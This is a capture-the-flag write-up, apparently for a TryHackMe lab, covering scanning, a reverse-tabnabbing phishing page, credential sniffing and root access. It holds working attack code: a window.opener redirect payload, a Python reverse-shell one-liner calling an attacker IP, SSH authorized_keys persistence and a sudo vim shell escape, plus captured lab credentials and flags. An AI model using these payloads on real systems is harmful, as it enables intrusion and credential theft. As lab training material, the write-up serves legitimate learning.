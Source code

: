 
>"Reverse tabnabbing is an attack where a page linked from the target page is able to rewrite that page, for example to replace it with a phishing site. As the user was originally on the correct page they are less likely to notice that it has been changed to a phishing site, especially if the site looks the same as the target. If the user authenticates to this new page then their credentials (or other sensitive data) are sent to the phishing site rather than the legitimate one."
https://owasp.org/www-community/attacks/Reverse_Tabnabbing
# Rustscan
```bash
rustscan -a 10.10.184.22 --ulimit 7000 -- -sC -sV   
```
### Open Ports
HTTP:80 | Apache httpd 2.4.41 ((Ubuntu))
SSH:22 | OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)

# Gobuster
```bash
gobuster dir -u http://10.10.184.22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 
```
## Directories 

| Directories | Status Code | Full-URL                   |
| ----------- | ----------- | -------------------------- |
| /admin      | 312         | http://10.10.184.22/admin/ |

# Enumeration
## Exploitting underscore blank
https://book.hacktricks.xyz/pentesting-web/reverse-tab-nabbing

Start a python server on port 80 and 8000
```bash
nano mal.html
```
```html
<!DOCTYPE html>
<html>
 <body>
  <script>
  window.opener.location = "http://10.6.53.104:8000/malicious_redir.html";
  </script>
 </body>
</html>
```

```bash
nano login.html
```

Take the source page of the login form
```html
<!DOCTYPE html>
<html lang="en">   
<head>
    <meta charset="UTF-8">
    <title>Welcome</title>     
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">                                               
    <style>
        body{ font: 14px sans-serif; text-align: center; }    
    </style>     
</head>
<body>
	<h1 class="my-5">Hello, <b>test</b>! Welcome to our free blog promotions site.</h1>                                         
    <h1 class="my-5">Please submit your link so that we can get started.<br> All links will be reviewed by our admin who also built this site!</h1>
    <form action="" method="post">          
                <label for="link">Blog Link:</label>
                <input type="text" placeholder='http://visitme.com/' id="link" name="url"><br><br>
                <input type="submit" name="submit" value="Submit">
                <br>
                <br>
                <p>Thank you for your submission, you have entered: <a href='http://10.6.53.104:8000/mal.html' target='_blank' >Here</a></p>    </form> 
    <br>
    <p>
        <a href="reset-password.php" class="btn btn-warning">Reset Your Password</a>
        <a href="logout.php" class="btn btn-danger ml-3">Sign Out of Your Account</a>
    </p>

</body>
</html>
```

# Wireshark
Using Wireshark we can easy see the username and password of the user.

<html>
 <body>
  <script>
  window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
  </script>
 </body>
</html>
![[Pasted image 20240617150919.png]]
### username password
username Daniel
password=C@ughtm3napping123
# User.txt
```bash
ssh daniel@10.10.184.22
```

### Finding files with group admin priveldges
```bash
find / -group administrators -type f 2>/dev/null
```

or
### PSPY
![[Pasted image 20240617152236.png]]
## Getting reverse shell
Add reverse shell to query.py and wait for shell. We can change this file because we are part of the administrator group.
![[Pasted image 20240617153532.png]]
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.53.104",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```
```bash
rlwrap nc -lvnp 7777
```

## Upgrading to ssh connection
On your attackers machine enter the following commands to get ssh on victims machine
```bash
ssh-keygen -t rsa
```
```bash
cd .ssh
```
```bash
cat id_rsa.pub
```

On the victims machine enter these commands into authorized_keys
```bash
cd .ssh
```
```bash
echo "YOUR id_RSA key" > authorized_keys
```
```bash
ssh adrian@10.10.184.22
```

```bash
cat user.txt
```
	THM{Wh@T_1S_Tab_NAbbiN6_&_PrinCIPl3_of_L3A$t_PriViL36E}

## Privilege Escalation 
```bash
sudo -l
```
![[Pasted image 20240617154627.png]]
```bash
sudo vim -c ':!/bin/sh'
```
```bash
cd /root; cat root.txt
```
	THM{Adm1n$_jU$t_c@n'T_stAy_Aw@k3_T$k_tsk_tSK}
